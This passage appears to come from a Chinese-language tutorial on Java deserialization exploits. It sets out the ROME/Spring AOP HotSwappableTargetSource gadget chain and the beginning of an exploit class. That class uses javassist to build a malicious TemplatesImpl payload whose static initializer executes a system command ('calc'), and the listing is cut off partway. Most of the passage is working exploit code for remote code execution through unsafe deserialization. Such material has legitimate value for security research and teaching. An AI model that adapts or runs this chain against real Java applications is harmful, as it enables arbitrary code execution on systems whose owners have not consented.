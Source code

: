 **注**：这里进入对应的分支是 System.getSecurityManager() 返回的 null，表示当前线程并未设置或安装安全管理器

## 7\. HotSwappableTargetSource 利用链

### 环境依赖

```plain
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>5.2.7.RELEASE</version>
</dependency>
```

### 利用链

```plain
TemplatesImpl.getOutputProperties()
ToStringBean.toString(String)
ToStringBean.toString
XString.equals()
HotSwappableTargetSource.equals()
HashMap.putVal()
HashMap.readObject()
```

### EXP

```plain
package RomeSec;

import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class HotSwapExp {
    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass ctClass = classPool.makeClass("aaaa");
        ctClass.setSuperclass(classPool.get(AbstractTranslet));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = ctClass.toBytecode();

        // 创建TemplatesImpl对象
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);
```